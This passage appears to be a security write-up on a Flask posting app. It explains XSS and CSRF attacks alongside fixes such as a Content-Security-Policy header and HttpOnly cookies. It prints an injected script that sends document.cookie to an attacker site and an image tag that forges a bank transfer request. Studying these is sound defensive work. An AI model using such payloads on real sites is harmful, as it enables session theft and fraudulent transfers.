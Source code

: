 ### Fix

We can set the `Content-Security-Policy` header to disable inline scripts from being executed. [flask-csp](https://github.com/twaldear/flask-csp) does this with default policies that are sufficient for our purposes. This policy only needs to be set in the home page because this is where posts (which may contain inline scripts) are rendered.

```python
from flask_csp.csp import csp_header

...

@app.route("/")
@app.route("/home")
@csp_header()
def home():
   ...
```

# CSRF Attacks

## Attack 1

Suppose that the following post was previously injected in the victim’s posts:

```html
<img id="evil-image" />
<script>
  document.getElementById("evil-image").src =
    `https://www.my-evil-site.com/?${document.cookie}`;
</script>
```

This uses the `document.cookie` JS attribute and leaks the user’s cookies (including the session token) and sends them to our site. The attacker can then send requests posing as the victim.

### Fix

The session token can be made invisible to JavaScript using the `HttpOnly` flag in whichever lines the cookie is set:

```html
response.set_cookie("session_token", token, httponly=True)
```

## Attack 2

Suppose the victim is logged into `bangko.com.ph`. An attacker manages to inject the following into the victim’s posts:

```python
<img src="https://bangko.com.ph/transfer?amount=10000&recipient=177013" />
```
